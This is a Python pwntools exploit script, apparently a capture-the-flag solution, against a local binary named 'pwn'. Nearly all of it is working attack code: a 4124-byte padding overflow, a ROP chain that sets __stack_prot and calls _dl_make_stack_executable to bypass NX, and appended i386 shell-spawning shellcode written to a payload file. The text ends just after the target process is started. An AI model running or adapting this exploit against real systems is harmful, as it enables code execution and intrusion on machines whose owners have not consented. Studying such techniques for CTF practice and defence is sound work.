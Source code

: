 ```python
if not os.path.exists(vbin):
    if not s:
        connect()
    s.download_file("~/pwn")
    subprocess.check_call(["chmod", "+x", "./pwn"])

velf = ELF("./pwn")

# > afl~exec
# 0x0809e580  88    6     sym._dl_make_stack_executable
#
# can we use this to bypass NX?
# http://radare.today/posts/defeating-baby_rop-with-radare2/
#

# The payload is gonna look like this:
# [ padding ][ ROP chain ][ shellcode ]

padsize = 4124
pad = "A" * padsize

r = ROP(velf)
r.raw(0x0807270a)  # pop edx ; ret
r.raw(0x080edfec)  # obj.__stack_prot
r.raw(0x080beb26)  # pop eax; ret
r.raw(0xffffffff)  # -1
for i in range(8):
    r.raw(0x0807f15f)  # inc eax ; ret

r.raw(0x0809dead)  # mov dword ptr [edx], eax ; ret
r.raw(0x080beb26)  # pop eax; ret
r.raw(0x080edfc4)  # obj.__libc_stack_end
r.call('_dl_make_stack_executable')
r.raw(0x0808d330)  # call esp

# r.call('exit', [42])
log.info("Using rop chain:\n" + r.dump()
         + "\n")  # + hexdump(str(r)))


sc = shellcraft.i386.linux.sh()
log.info("using shellode:\n" + sc)
sc = asm(sc)
log.info("assembled length: {}".format(len(sc)))


payload = str(r) + sc + "\x90" * 4
log.info(hexdump(payload))
payload = pad + payload

if "\x00" in payload:
    log.warn("NULL byte in payload!")

log.info("saving payload")
with open("./payload", "w") as f:
    f.write(payload)

# :)

subprocess.check_call(["mkfifo", "./fifo"])

vp = process(["./pwn", "./fifo"])
# break *0x8048f4e
```